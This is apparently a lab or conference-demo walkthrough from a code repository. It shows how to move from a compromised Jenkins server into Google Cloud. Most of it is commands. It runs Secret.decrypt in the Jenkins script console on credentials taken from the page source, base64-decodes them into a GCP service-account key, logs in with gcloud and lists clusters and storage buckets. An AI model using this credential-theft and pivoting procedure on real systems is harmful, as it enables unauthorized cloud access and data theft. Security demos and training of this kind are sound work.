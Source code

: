 # Get Cloud Access
Now that we're in Jenkins, we'll look a bit around

## Secrets
There are predefined secrets.
Some maybe used for Terraform
Lets decrypt them

### Get the secret
Open 
```
    http://jenkins.test.nevervictimconsult.xyz:8080/script
```
and start following script
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```
where `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` is the encrypted content of the `<password>` or `<passphrase>` XML element that you are looking for.
And in order to get the password value of `${ENCRYPTED_PASSPHRASE_OR_PASSWORD}` go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

What you got is the base64 encoded json string for authenticating to GCP.
Next up: decode it.

### decode
Paste it into Kali

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encrypted.json
```

paste the string into `encrypted.json` and decode it then

```bash
cd /root/demotalk/cloudAccess
cat encrypted.json | base64 --decode > gcpSa.json
```

### Login to GCP

```bash
cd /root/demotalk/cloudAccess
gcloud auth activate-service-account --key-file=gcpSa.json
gcloud init --console-only
```

* create new configuration
* iamhere
* use jenkins account
* no cloudresourcemanager
* project name thorsten-jakoby-tj-projekt

### Take a look around

```bash
gcloud container clusters list
gcloud storage buckets list
```

Found interesting things: `conduit-database-backup-test`